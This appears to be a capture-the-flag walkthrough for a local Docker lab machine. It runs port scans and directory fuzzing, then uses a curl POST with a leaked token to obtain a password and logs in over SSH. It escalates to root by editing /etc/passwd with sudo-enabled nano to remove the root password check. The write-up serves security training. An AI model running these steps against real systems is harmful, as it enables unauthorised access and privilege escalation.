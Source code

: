 ![image](https://github.com/user-attachments/assets/bf63a30e-696d-427b-b9a7-98b1222b8a46)
```bash
ping -c 1 172.17.0.2
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
nmap -sCV -p80,3000,5000 172.17.0.2 -oN targeted
```
![Pasted image 20250128123638](https://github.com/user-attachments/assets/69bcb57b-cd69-4398-afd6-4515766acde8)
![Pasted image 20250128123733](https://github.com/user-attachments/assets/ee043353-3bfe-4e0d-99c1-364f2e42e95a)

## **Fuzzing**
```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```
![Pasted image 20250128123947](https://github.com/user-attachments/assets/f21bf97a-9cf6-49e2-b43b-014c8898cb04)
![Pasted image 20250128125538](https://github.com/user-attachments/assets/7d6079d9-91d3-415b-9d77-14948d7c378c)
![Pasted image 20250128124136](https://github.com/user-attachments/assets/819a02eb-1fab-42af-93ae-4681814697a8)

## **Among the files there is one called server.js which looks like this server listens for POST requests on the `/resource/` path and returns a password if the provided token is correct.**

![Pasted image 20250128125118](https://github.com/user-attachments/assets/e2d94c09-afe3-413a-93e4-368716ec580f)

## **We can test this using curl, if we send the request with post we can observe the password if it is correct and if not it is another text.**
```bash
curl -x POST http://172.17.0.2:3000/recurso/ -H "Content-Type: application/json" -d '{"token":"tokentraviesito"}'
```
![Pasted image 20250128125943](https://github.com/user-attachments/assets/08b55791-d4ee-46c7-9553-4a1d43be1fd0)

passwd = lapassworddebackupmaschingonadetodas

## **we connect via SSH**
```bash
ssh lovely@172.17.0.2 -p 5000
```
![Pasted image 20250128131639](https://github.com/user-attachments/assets/dfbea74d-eea9-4806-a590-1a9f6f98cc58)

## **now we will try to elevate privileges**
```bash
sudo -l
```
![Pasted image 20250128131747](https://github.com/user-attachments/assets/55d31d82-d4f6-4f90-9bf2-44dfc782d391)

## **we make a tty treatment**
```bash
script /dev/null -c bash
"CTRL+Z"
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

## **now that nano has root permissions we can modify the etc/passwd file**
```bash
nano /etc/passwd
```
![Pasted image 20250128132326](https://github.com/user-attachments/assets/f2088cfa-00fd-49ac-84c1-e9ef3d03aa1b)

## **we delete the x so that it does not ask for a password**

![Pasted image 20250128132352](https://github.com/user-attachments/assets/849e9445-ee83-480a-bfc6-f491414a9882)

## **save and change user**
```bash
su root
```
![Pasted image 20250128132446](https://github.com/user-attachments/assets/e69e7b93-fda2-4424-97f5-e5c776d8d481)
